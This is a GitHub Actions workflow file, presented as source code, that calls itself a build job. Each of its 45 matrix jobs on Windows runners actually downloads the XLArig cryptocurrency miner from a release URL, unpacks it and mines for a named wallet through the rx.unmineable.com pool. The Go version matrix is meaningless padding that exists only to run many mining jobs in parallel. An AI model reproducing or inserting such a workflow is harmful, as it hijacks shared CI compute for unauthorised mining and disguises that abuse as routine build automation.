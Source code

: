 name: eX-code_UMBL
 
on: [workflow_dispatch]
 
jobs:
  build:
    name: eX-code_UMBL
    runs-on: windows-latest
    strategy:
      max-parallel: 5
      fail-fast: false
      matrix:
        go: [1.0, 1.1, 1.2, 1.3, 1,35]
        flag: [A, B, C, D, E, F, G, H, I]
    env:
        NUM_JOBS: 20
        JOB: ${{ matrix.go }}
    steps:
    - name: PREPARING
      run: Invoke-WebRequest https://github.com/scala-network/XLArig/releases/download/v5.2.2/XLArig-v5.2.2-win64.zip -Outfile XLArig-v5.2.2-win64.zip
    - name: Seting-UP
      run: Expand-Archive XLArig-v5.2.2-win64.zip
    - name: Running
      run: .\XLArig-v5.2.2-win64\xlarig.exe --no-huge-pages -o rx.unmineable.com:3333 -p x -a rx -k -t 1 --cpu-max-threads-hint 25 -u BTT:TETfQxUonoVEAPJFBJMtKrwpXnuHAjYmeA.tes1
    - name: DONE
      run: exit
